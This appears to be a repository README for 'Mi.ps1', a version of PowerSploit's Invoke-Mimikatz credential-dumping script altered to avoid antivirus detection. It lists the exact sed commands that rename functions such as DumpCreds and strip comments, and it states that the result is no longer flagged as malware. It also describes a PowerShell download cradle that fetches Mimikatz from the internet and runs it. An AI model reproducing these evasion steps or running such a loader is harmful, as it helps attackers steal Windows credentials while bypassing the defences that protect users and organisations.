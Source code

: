 # Mimikatz

## Mi.ps1

Mi.ps1 is a modified version of Mimikatz which is available at https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

I downloaded the file an modified it with the following commands:

<pre>
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/BirdIsTheWord/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/UnceUnceUnce/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
</pre>

At the end I renamed the file with:

<pre>
mv Invoke-Mimikatz.ps1 Mi.ps1
</pre>

This will change the bahivor of most AV scanners. The file will be no longer detected as maleware, but the execution will be still blocked when the code sucked in.

## MiLoading.ps1

Is a single command that can be run on powershell. It will pull a file from the internet containing Mimikatz and will execute it. The results will be printed into a txt file which will be opened by notepad. The commands was created by the Invoke-CradleCrafter (https://github.com/danielbohannon/Invoke-CradleCrafter).
